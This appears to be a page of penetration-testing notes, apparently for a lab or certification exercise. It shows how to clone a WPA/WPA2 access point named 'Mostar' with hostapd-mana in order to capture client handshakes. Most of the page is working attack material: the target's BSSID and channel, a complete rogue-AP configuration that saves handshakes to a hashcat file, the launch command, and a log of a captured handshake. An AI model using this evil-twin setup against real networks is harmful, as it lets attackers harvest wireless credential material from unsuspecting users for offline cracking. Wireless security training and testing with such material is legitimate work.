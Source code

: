 Shows beacon frames from the AP "Mostar" with full security config (WPA1/WPA2 + TKIP/CCMP).

---

🔹 **Key Info from Wireshark - Mostar AP**

```bash
ESSID: Mostar   
BSSID: FC:7A:2B:88:63:EF   
Channel: 1   
Encryption: WPA1/WPA2 (TKIP & CCMP)   
Auth: PSK   
Speed: 130 Mbps → 802.11n
```

Rogue AP must match these parameters to trick the client.

---

🔹 **Rogue AP Configuration - Mostar Clone**

```
kali@kali:~$ cat Mostar-mana.conf

interface=wlan0  
ssid=Mostar  
channel=1  
hw_mode=g              # 2.4GHz band  
ieee80211n=1           # Enable 802.11n  
wpa=3                  # Enable WPA & WPA2  
wpa_key_mgmt=WPA-PSK  
wpa_passphrase=ANYPASSWORD  # Any PSK – just for handshake capture  
wpa_pairwise=TKIP  
rsn_pairwise=TKIP CCMP  
mana_wpaout=/home/kali/mostar.hccapx  # Save handshake here
```

✅ Matches target AP  
✅ Saves captured handshakes  
✅ Fake PSK accepted – handshake still works

---

🔹 **Starting Rogue AP**

```bash
sudo hostapd-mana Mostar-mana.conf
```

📡 Hostapd-Mana broadcasts "Mostar" clone  
📥 Logs handshake captures (even with wrong PSK)

---

🔹 **Captured Handshake Example**

```
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e  
AP-STA-POSSIBLE-PSK-MISMATCH
```
